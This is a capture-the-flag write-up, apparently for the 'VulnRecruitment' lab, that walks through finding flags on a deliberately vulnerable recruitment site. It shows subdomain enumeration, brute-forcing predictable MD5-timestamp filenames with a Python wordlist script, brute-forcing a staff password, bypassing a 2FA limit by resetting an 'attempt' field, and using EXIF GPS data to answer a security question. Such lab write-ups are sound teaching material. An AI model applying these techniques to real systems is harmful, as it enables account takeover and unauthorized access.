








# VulnRecruitment

http://www.vulnrecruitment.co.uk/ - 4 flags to find

Front page


I think i'll start with some subdomain enumeration and then come back to the main app and do content discovery etc.

```
└─$ assetfinder -subs-only vulnrecruitment.co.uk
b38f1-uploads.vulnrecruitment.co.uk
vulnrecruitment.co.uk
vulnrecruitment.co.uk
vulnrecruitment.co.uk
```

OK let's quickly check the subdomain we found


Nice easy one there, flag no.1. Note the "google search" link could be an open re-direct to use later.

```http://b38f1-uploads.vulnrecruitment.co.uk/redirect?url=https://www.google.com```

Whilst I'm looking at subdomain enumeration I might as well check if I get any hits with the wordlist.

And yes looks like admin is also a subdomain


OK let's do what I said and go back and do some content discovery on the main domain first. So I didn't find anything beyond the staff path which is linked on the main page


The view profile buttons link to 

- /staff/1 - Jacob Webster jacob.webster@vulnrecruitment.co.uk
- /staff/2 - Archie Bentley archie.bentley@vulnrecruitment.co.uk
- /staff/4 - Abbie Ward abbie.ward@vulnrecruitment.co.uk

Interesting what happened to 3?


OK disgruntled ex employee perhaps?

What's also strange is how employee images are retrieved

```
GET /staff/2/image?id=0fbbd14791d5032e57cb38013a08c791 HTTP/1.1
Host: www.vulnrecruitment.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://www.vulnrecruitment.co.uk/staff/2
Cookie: ctfchallenge=xxx
```

The ID is also a bit weird, it's an MD5 hash which crackstation can match to a timestamp string of '11:18'. Is this relevant?

- /staff/1 - 955dc852b26e9375c7b7858b438f80f6 = 03:28
- /staff/2 - 0fbbd14791d5032e57cb38013a08c791 = 11:18
- /staff/4 - 33379393610f7c99f05c85f9f92deaef = 19:33

Let's try changing the ID to one which won't exist

```
GET /staff/2/image?id=xxx HTTP/1.1
Host: www.vulnrecruitment.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://www.vulnrecruitment.co.uk/staff/2
Cookie: ctfchallenge=xxx
```

Oooo look at that, our previously discovered subdomain domain is mentioned in the response!

```
HTTP/1.1 200 OK
server: nginx/1.21.1
date: Tue, 07 Jun 2022 14:17:06 GMT
content-type: image/jpeg
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulnrecruitment.co.uk
connection: close
Content-Length: 87

404 - Resource (http://b38f1-uploads.vulnrecruitment.co.uk/uploads/2_xxx.jpg) not found
```

So the direct link to Archie's picture would be ```http://b38f1-uploads.vulnrecruitment.co.uk/uploads/2_0fbbd14791d5032e57cb38013a08c791.jpg```

I suspect whoever employee no.3 is, still has stuff in here!

In the meantime I've also done content fuzzing against ```b38f1-uploads.vulnrecruitment.co.uk/FUZZ``` and ```admin.vulnrecruitment.co.uk/FUZZ``` neither of which return us anything we didn't already know about.

I think my next area to look at again is ```b38f1-uploads.vulnrecruitment.co.uk``` as it mentioned the ability to upload content. Perhaps I can do a POST or a PUT.....

And that'll be a no....

```
HTTP/1.1 404 Not Found
server: nginx/1.21.1
date: Tue, 07 Jun 2022 15:21:07 GMT
content-type: text/html; charset=UTF-8
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulnrecruitment.co.uk
connection: close
Content-Length: 14

Page Not Found
```

Right can I create an MD5 payload list in the timestamp string range 00:00-23:59? And then request ```http://b38f1-uploads.vulnrecruitment.co.uk/uploads/3_<timestamphash>.jpg```

OK so I was thinking maybe Burp had a from-to payload for time, but it only looks like it has Dates, shame, so python it is. First thing let's check I can recreate the same hexdigest using Python from the MD5. eg

```python
>>> import hashlib
>>> print(hashlib.md5(b"03:28").hexdigest())
955dc852b26e9375c7b7858b438f80f6
```

Yes I can, right now to create the formatted times, so I should be able to create a range for all the minutes in a day eg.

```python
>>> from datetime import datetime, timedelta
>>> (datetime.min + timedelta(minutes=1)).time().strftime('%H:%M').encode()
b'00:01'
```

That's the code needed to create the formatted string, now for a range from 00:00-23:59

```python
>>> from datetime import datetime, timedelta
>>> times = [(datetime.min + timedelta(minutes=i)).time().strftime('%H:%M').encode() for i in range(24*60)]
[b'00:00', b'00:01', b'00:02', b'00:03', b'00:04', ..., b'23:59']
```

Yup that worked OK let's put that all together and create a hashed wordlist

```python
import hashlib
from datetime import datetime, timedelta
times = [hashlib.md5((datetime.min + timedelta(minutes=i)).time().strftime('%H:%M').encode()).hexdigest() for i in range(24*60)]
with open('timehashes.txt', 'w') as wordlist:
    wordlist.write('\n'.join(times))
```

OK perfect that worked. Now to use this in Intruder

YES! I get a hit against ```/uploads/3_d9a39bb5097e8e57d4da9669ea44fd72.jpg```


But who is this mysterious woman? :D

OK perhaps I can extend my attack to a cluster bomb attack to include popular file extensions. Although even with a small list of file extensions that's over 1.3M requests! Hmmmmmm....... at a limit of 10 requests per second that's a looooong time, perhaps not!

OK I don't think I'm done with fuzzing yet, I still need to try fuzzing content in

- http://b38f1-uploads.vulnrecruitment.co.uk/uploads/FUZZ
- http://www.vulnrecruitment.co.uk/staff/FUZZ

I got nothing for uploads, but.... I got a hit on portal for staff



I have a few email address let's try them

- jacob.webster@vulnrecruitment.co.uk - 'User not does have online access'
- archie.bentley@vulnrecruitment.co.uk - 'Invalid email / password combination'
- abbie.ward@vulnrecruitment.co.uk - 'User not does have online access'

OK so let's check if I can brute force a login with Archie from the provided password wordlist.

And I get a hit with the password 'thunder'. But it looks like we have 2FA enabled



Let's look at the form

```html
<form method="post" action="/staff/portal/login">
    <div class="panel panel-default" style="margin-top:50px">
        <div class="panel-heading">Login</div>
        <div class="panel-body">
            <input type="hidden" name="email" value="archie.bentley@vulnrecruitment.co.uk">
            <input type="hidden" name="password" value="thunder">
            <input type="hidden" name="attempt" value="1">
            <div class="alert alert-info"><p class="text-center">We've sent a 4 digit code to your mobile, you have 3 attempts to enter it below to continue</p></div>
            <div style="margin-top:7px"><label>4 Digit Code:</label></div>
            <div><input type="tel" name="otp" class="form-control" maxlength="4"></div>
        </div>
    </div>
    <input type="submit" class="btn btn-success pull-right" value="Login">
</form>
```

OK so I suspect I can force 'attempt' to always be one which should allow me to brute force the code....

Yup it takes a while but I get a hit on '3798'. Flag no.2



So the missing staff member is amelia.nixon@vulnrecruitment.co.uk. Quick nosey at the uploads tab



I wonder if amelia still has acccess to the portal, and perhaps she was an admin?



Well it doesn't tell me no :D! Let's try. Hah yup! Got a hit on 'zxcvbn'



Obviously I have no idea what her local pub is so let's use the password wordlist see if the answer is in there! Nope not even with the large password list.

OK so the other method was using a OTP, can I use that? And is it the same code every time? And no it still prompts me for an answer to the login reminder.

Let's step back and go back in as Archie, perhaps there's some other content to discover as an authenticated user.

Unfortunately /staff/portal has only login, logout and uploads which we know about.

OK so I did this earlier but let's try again. Amelias picture does it contain useful exif data?

```
─$ exiftool -a ./images/3_d9a39bb5097e8e57d4da9669ea44fd72.jpg 
ExifTool Version Number         : 12.40
File Name                       : 3_d9a39bb5097e8e57d4da9669ea44fd72.jpg
Directory                       : ./images
File Size                       : 871 KiB
File Modification Date/Time     : 2022:06:08 06:40:11-04:00
File Access Date/Time           : 2022:06:08 06:40:11-04:00
File Inode Change Date/Time     : 2022:06:08 06:40:11-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Exif Byte Order                 : Big-endian (Motorola, MM)
Resolution Unit                 : None
Y Cb Cr Positioning             : Centered
GPS Latitude Ref                : North
GPS Latitude                    : 51 deg 37' 47.31"
GPS Longitude Ref               : East
GPS Longitude                   : 0 deg 48' 50.82"
Image Width                     : 1024
Image Height                    : 1024
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 1024x1024
Megapixels                      : 1.0
GPS Latitude                    : 51 deg 37' 47.31" N
GPS Longitude                   : 0 deg 48' 50.82" E
GPS Position                    : 51 deg 37' 47.31" N, 0 deg 48' 50.82" E
```

It contains a GPS position of 51 deg 37' 47.31" N, 0 deg 48' 50.82" E. When I entered this into Google maps verbatim it just gives me somewhere in Germany.

However that was a mistake, instead I need to search for 51 37' 47.31" N 0 48' 50.82" E

Which brings up a pub of 'The New Welcome Sailor'



And flag no.3 (I blame my lack of knowledge of searching GPS co-ordinates on that one!)



I now have access to a file listing


The request looks like this

```
POST /staff/portal/uploads HTTP/1.1
Host: www.vulnrecruitment.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: http://www.vulnrecruitment.co.uk
Connection: close
Referer: http://www.vulnrecruitment.co.uk/staff/portal/uploads
Cookie: token=xxx; ctfchallenge=xxx
Upgrade-Insecure-Requests: 1

listing_file=upload_file_list_b84w.json
```

Which just displays a list of jpg's we already know about

```javascript
<script>
    var files = [{"name":"uploads\/1_955dc852b26e9375c7b7858b438f80f6.jpg","size":"999454"},{"name":"uploads\/2_0fbbd14791d5032e57cb38013a08c791.jpg","size":"867946"},{"name":"uploads\/3_d9a39bb5097e8e57d4da9669ea44fd72.jpg","size":"891601"},{"name":"uploads\/4_33379393610f7c99f05c85f9f92deaef.jpg","size":"904376"}];
    $(function() {
        $.each( files, function(k,v){
            $('ul#filelist').append('<li><a href="http://b38f1-uploads.vulnrecruitment.co.uk/' + v.name + '">' + v.name + '</a></li>');
        } );
    });
</script>
```